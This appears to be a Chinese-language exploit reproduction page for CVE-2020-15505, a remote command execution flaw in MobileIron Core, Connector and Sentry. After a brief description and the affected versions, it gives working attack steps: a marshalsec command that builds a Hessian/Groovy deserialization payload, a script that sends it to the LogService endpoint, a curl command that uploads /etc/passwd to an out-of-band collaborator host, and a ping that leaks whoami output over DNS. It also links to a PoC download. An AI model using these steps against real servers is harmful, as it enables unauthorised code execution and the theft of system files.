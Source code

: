 （CVE-2020-15505）MobileIron 远程命令执行漏洞
=============================================

一、漏洞简介
------------

MobileIron Sentry等都是美国思可信（MobileIron）公司的产品。MobileIron
Sentry是一款智能网关产品。MobileIron
Core是一款MobileIron平台的管理控制台组件。MobileIron
Connector是一款MobileIron平台的连接器组件。 MobileIron Core
10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本中存在安全漏洞。远程攻击者可利用该漏洞执行任意代码。

二、漏洞影响
------------

MobileIron Core 10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本

三、复现过程
------------

访问`https://www.0-sec.org/mifs/.;/services/LogService`

![5.png](./resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId24.png)

确认存在该漏洞位置连接。

在vps执行

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian Groovy "/bin/bash" "-c" "<Command>" > exp.ser

![1.png](./resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId25.png)

然后再执行

    python hessian.py -u 'https://target.0-sec.org/mifs/.;/services/LogService' -p exp.ser

![2.png](./resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId26.png)

**dnslog 使用姿势补充**

    curl http://xxxxx.burpcollaborator.net -F "file=@/etc/passwd;"

    ping `whoami`.xxx.dnslog.cn"

![3.png](./resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId27.png)

### poc

> https://download.0-sec.org/Web安全/MobileIron/CVE-2020-15505.zip

参考链接
--------

> https://github.com/iamnoooob/CVE-Reverse
